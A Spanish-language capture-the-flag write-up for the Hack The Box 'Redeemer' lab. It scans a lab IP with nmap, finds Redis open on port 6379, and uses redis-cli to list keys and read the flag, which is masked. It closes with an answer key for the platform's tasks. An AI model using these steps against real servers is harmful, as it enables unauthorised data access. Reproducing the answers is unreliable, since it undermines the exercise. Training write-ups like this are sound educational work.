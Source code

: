 ```yaml
---
title: Hack The Box - Starting Point - Tier 0 - Redeemer Writeup
date: 2022-08-09 09:30:00 +0800
categories: ["Hack The Box", Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Con este post finalizamos la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Redeemer

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img05.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.213.71*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:46 CEST
Nmap scan report for 10.129.213.71
Host is up (0.12s latency).
All 1000 scanned ports on 10.129.213.71 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Ups !! ... nobody listen :(

Vamos a por todos los puertos utilizando la flag ```-p-```&nbsp;, no solo los 1000 de ```-A```&nbsp;.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A -p- 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:48 CEST
Nmap scan report for 10.129.213.71
Host is up (0.075s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.85 seconds
```

Ahora si. Tenemos el puerto *6379/tcp* con el servicio *redis* escuchando. Para los que no sepáis qué es **Redis** podéis informaros [aquí](https://redis.io/).

Utilizamos **redis-cli** para conectarnos con el comando ```-h```&nbsp; para indicarle el host.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ redis-cli -h 10.129.213.71
10.129.213.71:6379> 
```

Ejecutamos *info*

```console
[...]
10.129.213.71:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
[...]
10.129.213.71:6379>
```

Lanzamos un *select*, le pedimos todas las *keys* y volcamos con *get* la que nos interesa. Para mas info sobre estos comandos:

* [SELECT index](https://redis.io/commands/select/)
* [KEYS pattern](https://redis.io/commands/keys/)
* [GET key](https://redis.io/commands/get/)

```console
[...]
10.129.213.71:6379> select 0
OK
10.129.213.71:6379> keys *
1) "numb"
2) "flag"
3) "stor"
4) "temp"
10.129.213.71:6379> get flag
"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
10.129.213.71:6379>
```

Con esto completamos el **Tier 0** y se nos habilita el botón para pasar al siguiente nivel, el **Tier 1**.

Enhorabuena a los que habéis llegado hasta aquí.

## Respuestas:

* <strong>Task 1</strong>: 6379
* <strong>Task 2</strong>: redis
* <strong>Task 3</strong>: In-memory Database
* <strong>Task 4</strong>: redis-cli
* <strong>Task 5</strong>: -h
* <strong>Task 6</strong>: info
* <strong>Task 7</strong>: 5.0.7
* <strong>Task 8</strong>: select
* <strong>Task 9</strong>: 4
* <strong>Task 10</strong>: keys *